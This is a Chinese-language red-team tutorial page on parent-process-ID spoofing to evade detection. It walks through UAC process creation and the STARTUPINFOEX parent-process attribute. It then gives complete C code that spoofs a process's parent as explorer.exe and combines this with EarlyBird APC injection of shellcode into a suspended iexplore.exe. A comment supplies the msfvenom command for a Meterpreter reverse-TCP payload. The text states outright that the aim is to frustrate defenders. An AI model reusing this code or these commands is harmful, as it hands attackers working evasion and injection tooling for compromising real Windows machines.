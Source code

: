 ```yaml
---
description: fake-PPID
---
```


# 伪装PPID规避检测

## UAC创建进程的过程的疑惑

> 在触发UAC时，操作系统会创建一个名为consent.exe的进程，该进程通过白名单和用户选择来确定是否提升权限。 请求进程将要提升权限的进程的commandline和程序路径通过LPC\(Local Procedure Call\)接口传递给appinfo的RAiluanchAdminProcess函数，该函数首先会验证传入程序是否在白名单内同时判断是否弹出UAC窗口，这个UAC框会创建新的安全桌面，屏蔽之前的界面。同时这个UAC框进程是SYSTEM权限进程，其他普通进程也无法和其进行通信交互。用户确认之后，会调用CreateProcessAsUser函数以管理员权限启动请求的进程。

  
  
触发UAC创建进程的过程中,我们可以知道实际上高权限的进程是由consent.exe进程创建的，但实际上父进程并非指向consent.exe任就是UAC发起者的进程ID，那么我们是否可以自己指定父进程，增加判断成本从而使蓝队脑阔疼。

![](../.gitbook/assets/image%20%2821%29.png)

![&#x7236;&#x8FDB;&#x7A0B;&#x5E76;&#x975E;consent.exe](../.gitbook/assets/image%20%2848%29.png)

## CreateProcessAsUser函数

最终创建函数的是由consent.exe调用的CreateProcessAsUser函数，那我们猜测是否是consent.exe调用时指定了某些参数，导致PPID的更换。

* 在官方文档中给出了如下原型:

```text
BOOL CreateProcessAsUserA(
  HANDLE                hToken,
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

查询官方文档得知，如果在dwCreationFlags中EXTENDED\_STARTUPINFO\_PRESENT标准，那么lpStartupInfo传入的就会是一个名为STARTUPINFOEXA的结构体，而这个结构体能指定父进程的相关信息，最终传入的PPID会被写入到新进程\_eprocess结构体的InheritedFromUniqueProcessId位置。

```text
typedef struct _STARTUPINFOEXA {
  STARTUPINFOA                 StartupInfo;
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXA, *LPSTARTUPINFOEXA;
```

根据查询的文档,CreateProcess函数同样也支持STARTUPINFOEXA结构体。

## 伪装PPID创建iexplore.exe

* 寻找explorer.exe的pid

```text
DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}
```

```text
int main() {

    STARTUPINFOEXA siex = {0};
    SIZE_T Size;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE hFake = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &Size);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, Size);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &Size);

    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hFake, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, NULL);
    //PS:这里有个小坑，需要开启继承句柄
    return 0;
}
```

![](../.gitbook/assets/image%20%2835%29.png)

## 与进程注入技术EARLYBIRD搭配使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.109 EXITFUNC=thread -f
    unsigned char shellcode[] = ("XXX");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    HANDLE expHandle = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &expHandle, sizeof(HANDLE), NULL, NULL);
    

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);

    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2849%29.png)

![](../.gitbook/assets/image%20%2844%29.png)

![](../.gitbook/assets/image%20%2842%29.png)

* github:[https://github.com/idiotc4t/FakePPID](https://github.com/idiotc4t/FakePPID)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}



